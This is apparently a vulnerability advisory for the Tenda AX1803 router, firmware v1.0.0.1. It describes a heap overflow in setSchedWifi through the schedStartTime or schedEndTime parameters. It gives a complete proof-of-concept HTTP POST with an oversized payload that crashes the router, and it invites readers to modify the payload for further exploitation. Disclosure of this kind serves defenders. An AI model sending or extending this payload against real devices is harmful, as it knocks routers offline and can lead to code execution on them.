



# Tenda AX1803 v1.0.0.1 contains a heap overflow via the schedStartTime parameter or the schedEndTime parameter in the function setSchedWifi

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1



## Vulnerability Description

Tenda AX1803 v1.0.0.1 contains a heap overflow via the schedStartTime parameter or the schedEndTime parameter in the function setSchedWifi.



## POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6buigtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 435

schedStartTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



The router may crash after sending the poc, and you may modify this for further exploiting.